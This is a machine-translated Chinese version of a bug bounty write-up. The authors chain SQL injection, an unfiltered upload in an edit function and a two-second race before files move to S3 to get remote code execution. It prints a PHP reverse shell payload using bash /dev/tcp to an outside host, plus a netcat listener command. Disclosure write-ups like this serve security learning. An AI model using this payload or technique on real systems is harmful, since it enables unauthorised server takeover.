







# 可能导致 RCE 的竞争条件-(一个应用程序在将上传的文件移动到亚马逊 S3 之前，在 2 秒内临时存储该文件的故事)

> 原文：<https://infosecwriteups.com/race-condition-that-could-result-to-rce-a-story-with-an-app-that-temporary-stored-an-uploaded-9a4065368ba3?source=collection_archive---------0----------------------->

بسم الله الرحمن الرحيم

-第一部分从(希望)第四部分-

**更新一:**增加了“参考”一节。

**更新二:**“我们”在这一系列文章中将指[费萨尔·尤多·赫纳万](https://medium.com/u/52fda4dd4a36?source=post_page-----9a4065368ba3--------------------------------)、[孙铁麟](https://medium.com/u/209be6f96c99?source=post_page-----9a4065368ba3--------------------------------)和我。

**更新三:**利用“upload.php”函数的方法已经在孙铁麟的文章中[发布。它可以绕过。phtml 扩展。](https://medium.com/@mastomi/bug-bounty-exploiting-cookie-based-xss-by-finding-rce-a3e3e80041f3)

**更新 IV:** 我们选择这些目标(具有存储 XSS 问题的目标)的原因，已经在本文中发布了(来自导致许多 bug 的注册激活的简单旁路[)。](https://medium.com/bugbountywriteup/a-simple-bypass-of-registration-activation-that-lead-to-many-bug-a-story-about-how-my-friend-5df0889f1062)

## **一、简介**

**1.1。关于这篇文章的几个字**

作为参考，这篇简单的文章讲述了一个故事，讲述了我如何在一个私有程序中链接几个 bug，从简单的 recon 到简单的 SQL 注入、竞争条件，最后导致 RCE。既然发现的 RCE 是独一无二的，那么，这个简单的记录将从一个由竞争条件触发的 RCE 开始。另外一个会在晚些时候被释放。

## **1.2。简单总结**

有些读者可能更喜欢摘要。然后在这一部分，我们将解释与我们获得 RCE 的“旅程”相关的整个总结。

当我们访问管理员的内部仪表板时(通过使用从 SQL 注入结果中转储的帐户)，我们发现了应用程序中的上传功能。

基本上，这个应用程序有一个保护机制，不允许用户上传。php 扩展(比方说，函数是**upload.php**-**)以前，上传。phtml 扩展)。但是，当这个应用程序提供另一个功能(姑且称之为**modify.php**)来替换/删除之前上传的文件时，第一个独特的问题就来了。好的一面是，这个 modify.php 函数不像 upload.php 那样过滤任何扩展名。因此，我们可以轻松地上传。php 文件放入站点。**

**但是，当应用程序将上传的文件转移到 S3 桶时，我们就遇到了问题。换句话说，不可能在应用服务器上获得 RCE，因为外壳存储在 S3 桶(也没有工作)。**

**在一种情况下，我们尝试多次重新发送上传请求(通过使用那些 modify.php 函数)(就像一种竞争情况)，突然我们得到了一个不同的响应长度，其中包含本地存储路径信息的错误。从这次执行中，我们意识到，如果文件在自动移动到 S3 存储桶之前大约 2 秒钟存储在本地。**

**因此，下一步是，我们在我们的服务器上设置侦听器(通过简单地使用“nc -lvp listener_port”)，然后尝试再次执行相同的竞争条件(在 modify.php 函数处重新上传反向 shell)，最后并行地，我们请求先前在我们的浏览器中找到的本地存储路径(就像我们多次按下“Command + R”)，直到我们的终端从应用程序的服务器显示 shell。**

**经过几次请求(不知何故超过 20-30 次请求)，我们终于得到了应用服务器的外壳。**

****

**图 1 RCE 结果**

## ****二。关于 RCE 的详细故事****

**在这一部分，我们将试着一步一步地解释我们最终是如何得到 RCE 的。**

**仅供参考，我们尽量手动绘制界面草图，希望能帮助读者了解情况。**

## **2.1.面向内部仪表板—满足上传功能**

**所以，在我们获得了内部仪表盘的访问权限后(稍后将公布我们是如何获得它的)，我们并没有停止搜寻。在这一点上，然后我们试图寻找任何文件上传功能，可能存在的应用程序。几分钟后，我们终于发现了一个可以通过这个仪表板发布新闻/文章的功能。然后，我们了解到，如果每个文件，我们想上传到每一个可用的部分(新闻/文章或任何东西)，那么它将被称为 upload.php 的功能处理。**

**基本上，每个可用部分都有一个上传界面，如下所示:**

****

**图 2 上传功能界面**

**没有想太多，那我们直接上传简单的。php 外壳再次通过这个功能([)以前，它容易受到通过给。phtml 扩展](https://medium.com/@mastomi/bug-bounty-exploiting-cookie-based-xss-by-finding-rce-a3e3e80041f3)并固定。然后我们又试着测试了一下这个功能)。但事情并不顺利，该功能有一个保护过滤。php 扩展。我们试图将扩展名与大写&小写(例如:。PhP)，还在扩展名后面加了一些数字(例如:. php3)，并尝试了各种方式(据我们所知——加倍扩展名，空字符，添加；性格等等)来绕过保护，那么它就失败了。我们总是收到这个可爱的警告。**

****

**图 3 应用中的保护**

**然后我们想，如何存储 XSS，比如也许上传。html，。xml，或者。svg 格式？嗯，这张上传成功。但后来，我们意识到如果文件被转移到 S3 桶。那么，如果我们能在 S3 桶域触发 XSS 又有什么意义呢？好吧，因为我们不知道如何进一步“使用”它，那么我们假设这不是一个问题。**

## **2.2.满足第二个上传功能，Modify.php**

**下一步是什么？在我们不知道如何将“上传”的文件“使用”到 S3 桶中之后，我们又回到了“新闻”部分的第一页，它包含了如此多需要添加新内容的表格。**

**仔细查看后，我们意识到在上传到 S3 存储桶的合法文件的同一行是否有一个“编辑”按钮。**

****

**图 4 功能编辑/删除上传的文件**

**此时，我们试着点击“编辑”按钮，看看会发生什么。**

**正如所料，我们将在这一部分也面临上传功能。第一次看到它时，我们认为这种形式是在过滤。php 扩展也是(因为我们认为，它与第一个有什么不同？).**但是，令人惊讶的是**，这个上传功能还没有过滤任何扩展名。**

**简而言之，我们可以上传。php 文件直接没有遇到任何麻烦。**

****

**图 5 上传替换现有文件的功能**

**当我们的 shell 被上传后，我们尝试重新上传 shell 并找出使用的函数。如果这一个还没有任何过滤功能，那么如果这是与先前不同的功能，可能性很大。我们的假设是正确的。在这个端点使用的函数是“【modify.php】”而不是“**【upload.php】**”。下面是用“modify.php”发出的示例请求:**

```
Content-Disposition: form-data; name="fileid"31337-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="name"picture-1.png-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="description"-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="userfile"; filename="reverse.php"Content-Type: text/php<?phpexec("/bin/bash -c 'bash -i >& /dev/tcp/10.20.30.40/21234 0>&1'");-----------------------------09234599689937136550676151776Content-Disposition: form-data; name="save"Save
```

**那么，结束了吗？**好难过，还没**。的。php 文件也被转移到 S3 桶，我们不能对上传的文件做任何事情。**

## **2.3.获取本地路径的竞争条件**

**老实说，那时我们也不知道，直到我们最终尝试用“空”有效载荷多次发送请求(通过 burpsuite 的入侵者模式)。请不要问，我们为什么这样做。**

**令人惊讶的是，在发出几个请求后，我们得到了不同的响应长度(大约需要 10 个请求，超过 20-30 个请求)。如果正常请求会产生 1147 个响应长度，那么在某一点上，它会达到 **1710 个**响应长度。**

**以下是我们所做的“相同”多重请求的示例:**

****

**图 6 发送具有空有效负载的多个请求**

**下面是我们通常会得到的正常响应(1147 个响应长度):**

****

**图 7 响应长度为 1147 的正常响应**

**那么，我们得到的非正常响应长度的内容是什么呢？好的一点是，它揭示了文件的本地路径。**

****

**图 8 竞争条件揭示了局部路径**

**当我们看到这个结果时，最后我们想，如果我们只需要在浏览器中访问路径，并等待侦听器触发 shell。**

**但是又一次，很难过，不是那样的。当通过我们的浏览器访问该文件时，我们得到了著名的警报:**“文件未找到”**。如果我们检查已经上传的文件的路径，它仍然显示 S3 存储桶位置，而不是我们从这个错误中得到的本地路径。**

**因此，从这次执行中，我们了解到，在他们将文件自动移动到 S3 存储桶之前，文件是否以某种方式存储在本地大约 1-2 秒钟。**

## **2.4.触发外壳，得到一个 RCE**

**从最后的假设中，我们想到了一件事:“*如果我们再次运行竞争条件，同时请求我们找到的(从错误结果中)到浏览器的本地路径来触发反向 shell，会怎么样？***

**怎么样？最后，**这招很管用**。**

**因此，我们在我们的服务器 **- >** 上设置监听器，然后尝试用我们的反向外壳 **- >** 替换应用程序上的现有文件多次执行竞争条件(1000 个请求可以缓冲我们的时间) **- >** 从竞争条件执行的不同响应长度中选择本地路径 **- >** 通过我们的浏览器 **- >** 反复访问路径，当应用程序被**

**下面是与执行相关的简单流程:**

****

**图 9 执行流程**

**这是 RCE 得出的简单结果:**

****

**图 10 RCE 结果**

## **三。闭幕**

**从这个 bug 中我们可以学到很多东西(至少对我们来说)。一些好的方面是:**

*   **我们有可能在文件本身移动到 S3 存储桶之前获得上传文件的本地路径。即使只有 1 或 2 秒钟，也足以让我们触发壳进入我们的听众；**
*   **总是尝试编辑你自己上传的文件。从这种情况下，我们看到，如果上传功能是从两个独立的功能(这是 upload.php 和 modify.php 在这种情况下)执行的可能性；**
*   **或许还有更多我们不知道的。**

## **四。参考**

**这里有一些(希望)与这篇文章相关的参考资料:**

*   **[https://www . OWASP . org/index . PHP/Testing _ for _ Race _ Conditions _(OWASP-AT-010)](https://www.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010))**
*   **[https://securing morrow . McAfee . com/business/testing-race-conditions-we B- applications/](https://securingtomorrow.mcafee.com/business/testing-race-conditions-web-applications/)**
*   **[https://medium . com/@ CIP H3 r 7 r 0 ll/race-condition-bug-in-we B- app-a-use-case-21 FD 4d f 71 f 0e](https://medium.com/@ciph3r7r0ll/race-condition-bug-in-web-app-a-use-case-21fd4df71f0e)**
*   **https://www.owasp.org/index.php/Unrestricted_File_Upload**
*   **[https://www . slide share . net/HackIT-Ukraine/15-technique-to-exploit-file-upload-pages-Ebrahim-he gazy](https://www.slideshare.net/HackIT-ukraine/15-technique-to-exploit-file-upload-pages-ebrahim-hegazy)**

***关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。***

**[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)**